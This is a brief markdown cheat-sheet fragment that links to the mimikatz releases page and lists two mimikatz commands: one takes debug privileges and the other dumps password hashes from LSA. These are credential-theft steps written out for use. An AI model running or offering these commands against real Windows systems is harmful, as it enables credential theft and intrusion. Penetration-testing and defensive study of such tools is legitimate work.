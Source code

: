 ### https://github.com/gentilkiwi/mimikatz/releases

## Check for privileges

```powershell
privilege::debug
```

## Dump hashes

```powershell
lsadump::lsa /patch
```